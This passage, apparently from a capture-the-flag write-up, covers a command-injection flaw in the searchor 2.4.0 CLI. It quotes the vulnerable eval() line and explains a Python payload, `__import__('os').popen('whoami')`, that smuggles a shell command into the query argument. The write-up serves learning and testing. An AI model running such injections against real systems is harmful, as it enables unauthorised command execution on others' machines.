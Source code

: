 ```bash
Successfully installed aenum-3.1.15 click-8.1.8 pyperclip-1.9.0 searchor-2.4.0
```

```bash
(myenv) 0hmsec@kali:-$ searchor --help
Usage: searchor [OPTIONS] COMMAND [ARGS]...

Options:
  --help  Show this message and exit.

Commands:
  history
  search

(myenv) 0hmsec@kali:-$ searchor search --help
Usage: searchor search [OPTIONS] ENGINE QUERY

Options:
  -o, --open  Opens your web browser to the generated link address
  -c, --copy  Copies the generated link address to your clipboard
  --help      Show this message and exit.
```

From the [github pull request page](https://github.com/ArjunSharda/Searchor/pull/130), we can see that the vulnerability was present in the `search` CLI command.

For the vulnerability to work, we need to abuse the below function.

```python
url = eval(
    f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
)
```

To check the code execution:
1. we need a valid linux command written in proper python syntax
2. the searchor command takes two options "ENGINE" and "QUERY". We need to find in which of these two, the arbitrary linux command needs to be passed.

#### Payload Explanation

After a bit of googling and trial & error, we find the python syntax to be this.

```python
' + __import__('os').popen('whoami').read() + '
```

- `__import__('os')`: Dynamically imports the os module, which provides functions for interacting with the operating system.
- `.popen('whoami')`: Executes the shell command "whoami"
- `.read()`: Reads the output of the command execution
- `'` and `+`: Added at the start and end for achieving the correct syntax of the F-string.

#### Local Code Execution

Now, let's try passing this command as arguments to "ENGINE" and "QUERY" one by one.
